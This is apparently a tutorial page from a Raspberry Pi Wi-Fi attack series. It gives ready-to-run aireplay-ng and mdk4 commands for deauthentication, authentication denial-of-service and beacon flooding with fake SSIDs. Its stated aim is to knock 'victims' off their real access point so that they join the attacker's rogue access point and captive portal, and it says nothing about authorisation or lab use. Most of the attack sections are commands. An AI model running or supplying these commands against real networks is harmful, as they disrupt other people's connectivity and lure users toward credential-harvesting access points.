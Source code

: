 # WI-FI Jamming with Raspberry PI

If you have read the previous tutorial [Wi-Fi Analysis](../WIFIAnalysis), you know your Wi-Fi environment around your location. Now you can immediately create an [Simple Access Point](../AccessPoint) and wait until the first victims come by themselves. You can also do this process a little faster -> The IEEE 802.11 (_Wi-Fi_) protocol contains the provision for a deauthentication frames.

## Objective

The aim of this tutorial is to speed-up the process that stations will connect to the access point (_which is created in next tutorial_).

## Precondition

You should already have read (_and successful carried out_) the following tutorials.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Wi-Fi Analysis](../WIFIAnalysis)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim wireless-tools

# install needed packages
$ sudo apt install -y aircrack-ng mdk4
```

## Attention

> In this tutorial we need the `wlan1` interface in the so-called monitor mode. You cannot use the `wlan0` interface from the Raspberry PI for this.

If you have already set up an [Access Point](../AccessPoint) and/or a [Captive portal](../CaptivePortal), you should stop them now!

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash

# stop hostapd service
$ sudo systemctl stop hostapd

# stop dnsmasq service
$ sudo systemctl stop dnsmasq
```

## Monitor Mode

The Wi-Fi interface (_wlan1_) must be set into "monitor mode".

```shell
# set interface down
$ sudo ip link set wlan1 down

# turn interface into monitor mode
$ sudo iwconfig wlan1 mode monitor

# set interface up
$ sudo ip link set wlan1 up
```

_Note: Read this [Wikipedia article](https://en.wikipedia.org/wiki/Monitor_mode) to get more information._

## aireplay-ng (Aircrack-ng)

The Aircrack-ng suite includes many tools to assess Wi-Fi networks. Here the focus is on `aireplay-ng` only. 

```shell
# show help (optional)
$ aireplay-ng --help

# start deauthentication attack
$ sudo aireplay-ng -0 0 -a [mac address] -c [mac address] wlan1
```

- `-0` means, deauthentication mode
- `0` means, send continuously deauthentication frames (_otherwise you can set a specific number_)
- `-a [mac address]` means, mac address of the access point
- `-c [mac address]` means, mac address of the station
- `wlan1` means, the interface`(_in monitor mode_)

## MDK4

MDK4 is the successor to MDK3 (_but requires the Aircrack-ng_). It's an awesome penetration tool for Wi-Fi, but be careful that you don't jam your own connection.

```shell
# show help (optional)
$ sudo mdk4 --help

# show detailed help (optional)
$ sudo mdk4 --fullhelp
```

### Authentication Denial-Of-Service (_Attack mode a_)

With this attack mode you send too many authentication frames to all AP's. This can freeze or reset several AP's.

```shell
# show help for specific attack mode (optional)
$ sudo mdk4 --help MODE a

# normal attack on specific AP (valid client mac)
$ sudo mdk4 wlan1 a -a [mac address] -m

# intelligent attack on specific AP (valid client mac)
$ sudo mdk4 wlan1 a -i [mac address] -m
```

### Beacon Flooding (_Attack mode b_)

With this attack mode you generate fake AP's. You could push the real AP far back, and your AP among the first places.

```shell
# show help for specific attack mode (optional)
$ sudo mdk4 --help MODE b

# create fake AP's (without encryption but valid ap mac)
$ sudo mdk4 wlan1 b -w n -m

# create text file
$ vim fake_ssid

# create fake AP's from file (without encryption but valid ap mac)
$ sudo mdk4 wlan1 b -w n -f fake_ssid -m
```

The content of the file `fake_ssid` (_feel free to change or add other content._).

```
WuTangLAN
Wi-Fry Chicken
Access Denied
Virus.exe
Connect or Die
For Porn Use Only
Missed Connections
Bathroom Cam
Big Busty Asians
o==[]:::::::::::::::::::::::::>
```

### Deauthentication and Disassociation (_Attack mode d_)

With this attack mode you deauthenticate stations from there access point. If you AP is ready (_and signal is strong_) they might connect to you afterwards.

```shell
# show help for specific attack mode (optional)
$ sudo mdk4 --help MODE d

# disconnect all stations from all AP's on channel 11
$ sudo mdk4 wlan1 d -c 11
```

### other MDK4 attacks

MDK4 offers 9 attack modules. Depending on your needs, take also a look at the other!

- ATTACK MODE a: Authentication Denial-Of-Service
- ATTACK MODE b: Beacon Flooding
- ATTACK MODE d: Deauthentication and Disassociation  
- ATTACK MODE e: EAPOL Start and Logoff Packet Injection
- ATTACK MODE f: Packet Fuzzer
- ATTACK MODE m: Michael Countermeasures Exploitation
- ATTACK MODE p: SSID Probing and Bruteforcing
- ATTACK MODE s: Attacks for IEEE 802.11s mesh networks
- ATTACK MODE w: WIDS Confusion

[Go Back](../readme.md)
